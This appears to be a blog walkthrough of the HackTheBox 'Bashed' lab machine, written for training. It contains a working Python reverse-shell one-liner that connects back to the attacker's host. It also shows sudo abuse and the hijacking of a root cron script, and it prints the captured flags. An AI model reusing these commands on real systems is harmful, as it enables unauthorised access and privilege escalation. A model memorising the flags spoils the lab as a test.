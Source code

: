 ```yaml
---
title: HackTheBox - Bashed
date: 2020-12-26 23:59:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, phpbash, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/Bashed.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN Bashed.txt 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Apache/2.4.18 (port 80)

![Arrexel's Development Site](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-1.png)

![only post](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-2.png)

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/dirb.png)

#### phpbash

As mentionned on the post we saw earlier &uarr;, [phpbash](https://github.com/Arrexel/phpbash) is running on `/dev`:

![phpbash](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/phpbash.png)

## reverse shell (`www-data`)

```bash
export RHOST="10.10.14.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/reverse-shell.png)

```bash
$ ls /home
arrexel  scriptmanager
```

We can read `user.txt` by the way:

```bash
$ cat /home/arrexel/user.txt
2c281f318555dbc1b856957c7147bfc1
```

Okay, so we identified two users:

1. `arrexel` 
2. `scriptmanager`

How about us?

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The sudo config tells us that we can switch to `scriptmanager` without password.

## User #1 (scriptmanager)

```bash
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ find / -user $(whoami) 2>/dev/null | grep -v "^/proc"   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout 
```

Let's inspect this `/scripts` directory:

```
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 26 13:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt; echo ""
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

That's suspicious buddy. **root** own the file `test.txt`.

![suspicious gif](https://i.gifer.com/LQW.gif)

Moreover, the file is updated every minute (cronjob?). This implies that `test.py` is executed every minute also. 

More precisely by **root** because the script creates the file `test.txt` and it's owned by him:

![minute](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/minute.png)

## Root

Let's copy `root.txt` in `/tmp`:

```bash
$ echo "import os; os.system('cp /root/root.txt /tmp/flag'); os.system('chmod 444 /tmp/flag');" > test.py 
```

![flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/flag.png)

```bash
scriptmanager@bashed:/scripts$ cat /tmp/flag
cc4f0afe3a1026d402ba10329674a8e2
```